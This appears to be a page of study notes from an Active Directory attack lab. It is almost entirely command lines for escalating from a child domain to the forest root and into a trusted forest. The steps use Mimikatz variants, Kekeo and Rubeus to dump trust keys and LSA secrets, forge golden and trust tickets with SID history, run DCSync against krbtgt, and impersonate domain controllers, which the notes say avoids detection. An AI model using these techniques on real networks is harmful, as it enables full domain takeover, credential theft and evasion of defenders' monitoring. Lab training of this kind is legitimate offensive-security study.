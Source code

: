 Abuse with Kekeo -->
Get a TGS for a service (CIFS below) in the target domain by using the forged trust ticket
.\asktgs.exe C:\AD\Tools\trust_tkt.kirbi CIFS/mcorpdc.moneycorp.local
Use the TGS to access the targeted service
.\kirbikator.exe lsa .\CIFS.mcorp-dc.moneycorp.local.kirbi
ls \\mcorp-dc.moneycorp.local\c$
Tickets for other services (like HOST and RPCSS for WMI, HTTP for PowerShell Remoting and WinRM) can be created as well.
Abuse with Rubeus- 
Note that we are still using the TGT forged initially
Rubeus.exe asktgs /ticket:C:\AD\Tools\kekeo_old\trust_tkt.kirbi /service:cifs/mcorp-dc.moneycorp.local /dc:mcorpdc.moneycorp.local /ptt
ls \\mcorp-dc.moneycorp.local\c$ 
BONUS! wmi command example --> gwmi -Class win32_operatingsystem -ComputerName mcorp-dc
Child to parent using krbtgt hash -
We will abuse sIDhistory once again
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /sids:S-1-5-21-335606122-960912869-3279953914-519 /krbtgt:4e9815869d2090ccfca61c1fe0d23986 /ptt" "exit"
In the above command, the mimkatz option "/sids" is forcefully setting the sIDHistory for the Enterprise Admin group for dollarcorp.moneycorp.local that is the Forest Enterprise Admin Group.
On any machine of the current domain - (the below commad will be suspicous amd will be detected if anyone was watching over the logs | very noisy)
Invoke-Mimikatz -Command '"kerberos::ptt C:\AD\Tools\krbtgt_tkt.kirbi"'
ls \\mcorp-dc.moneycorp.local.kirbi\c$
gwmi -class win32_operatingsystem -ComputerName mcorpdc.moneycorp.local
C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync /user:mcorp\krbtgt /domain:moneycorp.local" "exit"
BUT, WE CAN AVOID DETECTION USING THE BELOW METHOD -->
Avoid suspicious logs by using Domain Controllers group -
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /user:dcorp-dc$ /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /groups:516 /sids:S-1-5-21-280534878-1496970234-700767426-516,S-1-5-9 /krbtgt:4e9815869d2090ccfca61c1fe0d23986 /ptt" "exit"

C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync /user:mcorp\krbtgt /domain:moneycorp.local" "exit" [DCSync because two DCs are allowd to sync!, so no detection!]
S-1-5-21-2578538781-2508153159-3419410681-516 - Domain Controllers
S-1-5-9 - Enterprise Domain Controllers
Across Forest using Trust Tickets -
Once again, we require the trust key for the inter-forest trust.
Invoke-Mimikatz -Command '"lsadump::trust /patch"'
Or
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'
An inter-forest TGT can be forged.
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /rc4:2756bdf7dd8ba8e9c40fe60f654115a0 /service:krbtgt /target:eurocorp.local /ticket:C:\AD\Tools\trust_forest_tkt.kirbi" "exit" 
Abuse with Kekeo -->
Get a TGS for a service (CIFS below) in the target domain by using the forged trust ticket.
.\asktgs.exe C:\AD\Tools\kekeo_old\trust_forest_tkt.kirbi CIFS/eurocorp-dc.eurocorp.local
Use the TGS to access the targeted service.
.\kirbikator.exe lsa .\CIFS.eurocorp-dc.eurocorp.local.kirbi
ls \\eurocorp-dc.eurocorp.local\SharedwithDCorp\
Tickets for other services (like HOST and RPCSS for WMI, HTTP for PowerShell Remoting and WinRM) can be created as well.
Abuse with Rubeus -->
Using the same TGT which we forged earlier
Rubeus.exe asktgs /ticket:C:\AD\Tools\kekeo_old\trust_forest_tkt.kirbi /service:cifs/eurocorp-dc.eurocorp.local /dc:eurocorpdc.eurocorp.local /ptt

ls \\eurocorp-dc.eurocorp.local\SharedwithDCorp\
